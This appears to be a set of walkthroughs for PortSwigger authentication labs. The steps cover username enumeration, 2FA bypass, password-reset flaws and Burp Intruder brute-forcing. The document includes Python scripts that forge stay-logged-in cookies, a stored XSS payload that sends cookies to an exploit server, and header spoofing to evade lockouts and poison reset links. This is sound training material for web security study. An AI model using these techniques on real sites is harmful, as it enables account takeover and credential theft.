# Authentication 


### Table of Contents

- [Username enumeration via different responses](#username-enumeration-via-different-responses)
- [2FA simple bypass](#2fa-simple-bypass)
- [Password reset broken logic](#password-reset-broken-logic)
- [Username enumeration via subtly different responses](#username-enumeration-via-subtly-different-responses)
- [Username enumeration via response timing](#username-enumeration-via-response-timing)
- [Broken brute-force protection, IP block](#broken-brute-force-protection-ip-block)
- [Username enumeration via account lock](#username-enumeration-via-account-lock)
- [2FA broken logic](#2fa-broken-logic)
- [Brute-forcing a stay-logged-in cookie](#brute-forcing-a-stay-logged-in-cookie)
- [Offline password cracking](#offline-password-cracking)
- [Password reset poisoning via middleware](#password-reset-poisoning-via-middleware)
- [Password brute-force via password change](#password-brute-force-via-password-change)
- [Broken brute-force protection, multiple credentials per request](#Broken-brute-force-protection-multiple-credentials-per-request)


------


### [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)

**Goal** :  login into the website by brute-force usernames and passwords

-  go to the login page , submit any credentials , intercept the request, and send it to the intruder
-  select the value of username and click `add §`




- from options menu , load the [usernames ](https://portswigger.net/web-security/authentication/auth-lab-usernames)wordlist . 
- check the length of the response , you will notice that all similar lengths gives you invalid username except one with unique length gives you Incorrect password . this means that this user is exist (user enumeration)




- repeat these steps with value of password . load the [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) wordlist and check the response lengths




- Only one response will have a `302` HTTP response status code, which means that the password is correct 


------


### [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)

**Goal** :  login into `carlos` account by bypassing 2FA

-  go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater
-  you will notice that when you enter : 
   - wrong credentials , it gives `Invalid username or password.`
   - valid credentials , it redirects to `/login2` and generate security code

-  click `Email client` to get the security code and login to your account
-  logout and login with `carlos:montoya` 
-  change the URL from `/login2` to `/my-account`


------


### [Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)

**Goal** : reset Carlos's password then log in and access his "My account" page.

- go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater
- you will notice that when you enter : 

  - wrong credentials , it gives `Invalid username or password.`
  - valid credentials , it redirects to ` /my-account`
- logout and click forget password ,enter your username `peter` , go to **Email client** to get the password reset link

```apl
https://your-own.web-security-academy.net/forgot-password?temp-forgot-password-token=FiakmpwsOuDA1Ao6mrp6ivtJYuv3galm
```


- enter your new password and intercept the request , you will notice that the username is exist 
- change the value of username to `carlos` and login with the new carlos 's password
  NOTE : you can delete the token from the request ,that means you can reset the password without any token




------


### [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)

**Goal** :  login into the website by brute-force usernames and passwords

-  go to the login page ,submit any credentials ,intercept the request and send it to the intruder
-  select the value of username ,password and click `add §`
-  choose attack type `cluster bomb`  because now we have two payloads




- from options menu , load the [usernames ](https://portswigger.net/web-security/authentication/auth-lab-usernames) and  [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) wordlists . 






- All responses will give an `invalid username or password`, except only one response will have a `302` HTTP response status code, which means that the username and password are correct




------


### [Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)

**Goal** :  login into the website by brute-force usernames and passwords

-  go to the login page, submit any credentials, intercept the request and send it to the intruder.
-  select the value of username and click `add §`
-  you will notice that only the first 3 requests give `Invalid username or password.` and the other gives `You have made too many incorrect login attempts. Please try again in 30 minute(s).` , that means the web application blocks you after 3 wrong credential attempts 




- You can bypass this by spoofing your IP with an `X-Forwarded-For` header 

- You may notice that in the case of submitting your own username, the response time changes depending on the length of the password.

- From the intruder, select the value of `X-Forwarded-For` as the first payload, the value of username as the second payload, and select `pitchfork` attack type.




- From the options menu, set the payload type as `numbers` for the payload set 1, with a number range of 1–100 to change in each request




- From the options menu, set the payload type as a `simple list` For payload set 2, load the [usernames ](https://portswigger.net/web-security/authentication/auth-lab-usernames) wordlist





- Click `Start Attack`, then click Columns and select the Response received and Response completed options.
- You will notice that the username `ag` response time is longer than the others. Note: the first request (request 0) has the largest response time is my own username (`wiener`), so ignore it.





- Set the `username= ag` and load the [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) wordlist . 







- click `start attack` , all responses will give Invalid username or password except only one response will have 302 HTTP response status code which means that the username and password is correct 




------


### [Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

**Goal** :  login into the website by brute-force usernames and passwords

-  go to the login page ,submit any credentials ,intercept the request and send it to the intruder
-  select the value of username and click `add §`
-  you will notice that when you enter : 
   - nonexistent username ,it gives `Invalid username`
   - wrong password for exist user , it gives `Incorrect password`
   - more than 2 wrong attempts,  it gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).`





- so , you can bypass the block by entering 2 wrong credentials followed by 1 valid credentials (your own username and password)

- create file contains your own username and your target username but repeat them 100 times

- create file contains  [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) wordlist and put your password before each one.
  you can use this python script to generate the password file  

  ```python
  with open('password.txt') as f:
      lines = f.readlines()
  
  f= open('password.txt', 'w')
  for line in lines:
      c = "\npeter".join(line.split('\n'))
      f.write('\n'.join(c.split('\n')))
      f.write('\n')
  
  f.close()
  ```

- configure the intruder , load the username and password files 










- click `start attack` , only one response for `carlos` will have 302 HTTP response status code which means that the username and password is correct 





------


### [Username enumeration via account lock](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock)


**Goal** :  login into  the website by brute-force usernames and passwords

-  go to the login page ,submit any credentials ,intercept the request and send it to the intruder
-  select the value of username ,password and click `add §`
-  choose attack type `cluster bomb`  because now we have two payloads
-  from options menu , load the [usernames ](https://portswigger.net/web-security/authentication/auth-lab-usernames) and  [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) wordlists . 
-  responses give `Invalid username or password.` and after a lot of wrong attempts give `You have made too many incorrect login attempts. Please try again in 1 minute(s).` which means the username is valid but the account is locked 







- I continued the attack and I had `302` response code but you can use sniper attack with the valid username and the password wordlist





------


### [2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)

**Goal** :  login into `carlos` account by bypassing 2FA

- go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater

- you will notice that when you enter : 

  - wrong credentials , it gives `Invalid username or password.`

  - valid credentials , it redirects to `/login2` and generate security code with `verify` parameter and wiener as a value in cookie 

  - ```bash
    Cookie: session=cixHQ2yF0uvG6QUOqRkyUnjsIpFlwQu6; verify=wiener
    ```

- change `wiener` to `carlos` and send `GET` request to `/login2` to generate security code for `carlos`

- brute-force the security code with burp intruder







- you can use simple list payload type and load the output from this script which generates numbers in 4 digits from 0-9999

```python
for i in range(0,10000):
    print(f"{str(i).zfill(4)}")
```


- start the attack and you will get`302` response code 
- Right-click on the response and select `Show response in browser`. Copy the URL and load it in the browser. The page loads and you are logged in as `carlos`




------


### [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)


**Goal** : brute-force Carlos's cookie to gain access to his "My account" page.

- go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater

- you will notice that when you enter : 

  - wrong credentials , it gives `Invalid username or password.`

  - multiple wrong credentials , it gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).`

  - valid credentials , it redirects to ` /my-account` and generate cookie 

```bash
Cookie:session=isdKJGMsLZYPCEPtocVeA1; stayloggedin=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
```



- notice that the value of `stayloggedin` is in base64 
- decode it and you will get `wiener:51dc30ddc473d43a6011e9ebba6ca770 ` which is the `username : md5(password)`
- to brute-force the cookie of `carlos` you need list of possible [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) in md5 hash then encode them into base64 
  you can use this python script to generate all possible `stayloggedin` values

 

```python
import hashlib
import base64
f= open('password.txt', 'r')
lines = f.readlines()
for line in lines:
    result = hashlib.md5(line.rstrip('\n').encode())
    stringToBase64 = "carlos:"+result.hexdigest()
    stringToBase64_bytes = stringToBase64.encode("ascii")
    base64_bytes = base64.b64encode(stringToBase64_bytes)
    base64_string = base64_bytes.decode("ascii")
    print(f"{base64_string}")
f.close()
```


- Log out of your account.
- Send the most recent `GET /my-account` request to Burp Intruder.
- select the value of  `stayloggedin` and click `add §`
- load the base64 values




- click `start attack` .
- one of them will login with `carlos` account




- decode the base64, you will get value like `carlos:d0763edaa9d9bd2a9516280e9044d885`
- decrypt the md5 hash or you can use this script to get the password from the passwords wordlist

```python
import hashlib
f= open('password.txt', 'r')
lines = f.readlines()
for line in lines:
    result = hashlib.md5(line.rstrip('\n').encode())
    stringToBase64 = "carlos:"+result.hexdigest()
    if(stringToBase64 == "carlos:d0763edaa9d9bd2a9516280e9044d885"):
        print(line)
f.close()
```


- login with `carlos` credentials


------


### [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

**Goal** : obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater

- you will notice that when you enter : 

  - wrong credentials , it gives `Invalid username or password.`

  - multiple wrong credentials , it gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).`

  - valid credentials , it redirects to ` /my-account` and generate cookie 

  - ```bash
    Cookie:session=7XJuc6GpisdrW8O;stayloggedin=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
    ```

- notice that the value of `stayloggedin` is in base64 

- decode it and you will get `wiener:51dc30ddc473d43a6011e9ebba6ca770 ` which is the `username : md5(password)`

- go to home then view post and write XSS payload in the comment (stored XSS)

```html
<script>document.location='https://your-own-server.web-security-academy.net/'+document.cookie</script>
```


- open access log of the exploit server and you will get `carlos`'s cookie




```bash
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```


- decode the base64, you will get `carlos:26323c16d5f4dabff3bb136f2460a943`
- decrypt the md5 hash using any tool ,( i used this website `https://www.md5online.org/md5-decrypt.html` ) and you will get `carlos` 's password 



- login with `carlos` credentials  `carlos : onceuponatime  ` and delete his account


------


### [Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)

**Goal** : log in to Carlos's account.

- go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater
- you will notice that when you enter : 

  - wrong credentials , it gives `Invalid username or password.`
  - valid credentials , it redirects to ` /my-account`
- logout and click forget password ,enter your username `peter` , go to **Email client** to get the password reset link
- you know that the user `carlos` will carelessly click on any links in emails that he receives. So, you need to generate password reset link to him 
- add  `X-Forwarded-Host:your-exploit-server.web-security-academy.net` header in `/forgot-password` and change username to `carlos`





- go to email client and check the logs, you will get carlos 's  reset password token

```apl
"GET /forgot-password?temp-forgot-password-token=aBgxUrhr46KRYNbPNoyBpCuRelpKui8x HTTP/1.1"
```

- enter new password and login with the new credentials


------


### [Password brute-force via password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)

**Goal** : brute-force Carlos's account and access his "My account" page.

- login with your credentials `wiener : peter`
- try different entries in password change function
- you will notice that when you enter : 


- valid current password, but two different new passwords, the message says `New passwords do not match`.
- wrong current password
  - If the two entries for the new password match, the account is locked.
  - if you enter two different new passwords, an error message says `Current password is incorrect`.

- you can brute-force carlos's password if you enters a wrong `current password` with two different new passwords to get `Current password is incorrect`. till it changes to `New passwords do not match`.  which means that  a valid `current password` is submitted

Note :  the username is submitted as hidden input in the request.




- go to burp intruder, select value of current password and load it with the  [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) wordlist and check the response lengths



- all responses return`Current password is incorrect`  except one returns `New passwords do not match` which means that  you get carlos's password




------


### [Broken brute-force protection multiple credentials per request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)


**Goal** :  login into `carlos` account by brute-force usernames and passwords

-  go to the login page ,submit any credentials ,intercept the request and send it to the repeater
-  you will notice that when you enter : 
   - wrong credentials , it gives `Invalid username or password.`
   - multiple wrong credentials , it gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).`

-  i tried for another username but it also gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).` ,So it is not based on usernames but on something that identifies me as the same client.

-  then i tried to add `X-Forwarded-For` header but no luck with it
-  i noticed that the data submitted in JSON form



- i tried to submit multiple values of username and password like that but no thing changed

```json
"username":"carlos","password":"123123",
"username":"carlos","password":"baseball",
"username":"carlos","password":"abc123",
"username":"carlos","password":"football",
"username":"carlos","password":"monkey",
"username":"carlos","password":"letmein",
"username":"carlos","password":"dragon",
```

- finally i tried to submit `carlos` username with array of all passwords in JSON form and it gave `302` 

you can use this python script to generate the array

```python
import json
arr = []
with open('password.txt') as file:
    for i in file:
        arr.append(i.rstrip())
print(json.dumps(arr))
file.close()
```



- Right-click on the response and select `Show response in browser`. Copy the URL and load it in the browser. The page loads and you are logged in as `carlos`.


------
